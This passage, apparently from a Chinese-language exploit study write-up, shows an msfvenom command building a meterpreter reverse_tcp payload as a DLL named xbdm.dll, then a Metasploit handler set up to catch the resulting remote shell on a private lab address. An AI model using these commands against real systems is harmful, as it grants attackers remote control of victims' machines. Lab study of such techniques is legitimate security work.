 ```c
}

return TRUE;
}
```

使用MSF生成DLL：

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.137.79 LPORT=4444 -f dll -o /media/liyingzhe/Writing/Mystudy/Exploit/xbdm.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of dll file: 5120 bytes
Saved as: /media/liyingzhe/Writing/Mystudy/Exploit/xbdm.dll
```

MSF配置：

```sh
msf exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.137.79   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 2.
msf exploit(multi/handler) >
[*] Started reverse TCP handler on 192.168.137.79:4444

msf exploit(multi/handler) >
```
